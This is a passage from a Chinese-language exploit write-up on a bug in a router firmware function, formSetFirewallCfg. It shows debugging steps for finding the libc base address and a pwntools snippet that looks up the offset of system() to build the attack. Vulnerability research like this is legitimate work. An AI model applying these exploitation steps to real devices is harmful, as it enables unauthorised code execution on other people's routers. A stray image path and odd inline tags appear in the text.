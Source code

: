 
#### 3\. 寻找 libc 基址

在函数 formSetFirewallCfg 入口打个断点，continuing 运行程序，发送上文中的 poc，停到断点处

[![](assets/1706958084-3088adeecbe83e7d1287614c20dbe9c4.png)](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706713212378-8a9c2693-2948-45d7-9dc0-7eb418d1ae0d.png)

vmmap 指令打印内存信息，看到没有 libc，猜测<explored>这里就是 libc，后续测试证明的确是。libc 地址为 0xff58c000</explored>

```bash
libc_base_addr=0xff58c000
```

[![](assets/1706958084-805b8aaf727610b17afdccb60f961056.png)](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706713418828-289e6240-6225-4604-8ae3-9f8037798ed6.png)

#### 4\. 计算 libc 中 system 函数地址

```bash
from pwn import *

libc = ELF("./lib/libc.so.0")
system_offset = libc.symbols["system"]
```
